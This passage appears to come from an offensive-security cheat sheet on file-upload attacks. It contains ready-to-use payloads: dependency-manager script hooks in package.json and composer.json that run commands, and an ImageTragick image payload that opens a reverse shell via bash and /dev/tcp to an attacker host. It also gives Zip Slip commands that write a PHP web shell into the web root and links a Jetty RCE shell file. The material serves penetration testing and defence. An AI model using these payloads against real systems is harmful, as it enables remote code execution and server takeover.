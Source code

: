 Alternatively you may be able to upload a JSON file with a custom scripts, try to overwrite a dependency manager configuration file.
- package.json
    ```js
    "scripts": {
        "prepare" : "/bin/touch /tmp/pwned.txt"
    }
    ```
- composer.json
    ```js
    "scripts": {
        "pre-command-run" : [
        "/bin/touch /tmp/pwned.txt"
        ]
    }
    ```

### CVE - ImageMagick

If the backend is using ImageMagick to resize/convert user images, you can try to exploit well-known vulnerabilities such as ImageTragik.

* ImageTragik example: Upload this content with an image extension to exploit the vulnerability (ImageMagick , 7.0.1-1)
    ```powershell
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
    pop graphic-context
    ```

More payloads in the folder `Picture ImageMagick`

### CVE - FFMpeg

FFmpeg HLS vulnerability


### ZIP archive

When a ZIP/archive file is automatically decompressed after the upload

* Zip Slip: directory traversal to write a file somewhere else
    ```python
    python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15

    ln -s ../../../index.php symindex.txt
    zip --symlinks test.zip symindex.txt
    ```

### Jetty RCE

Upload the XML file to `$JETTY_BASE/webapps/`
* [JettyShell.xml - From Mikhail Klyuchnikov](https://raw.githubusercontent.com/Mike-n1/tips/main/JettyShell.xml)
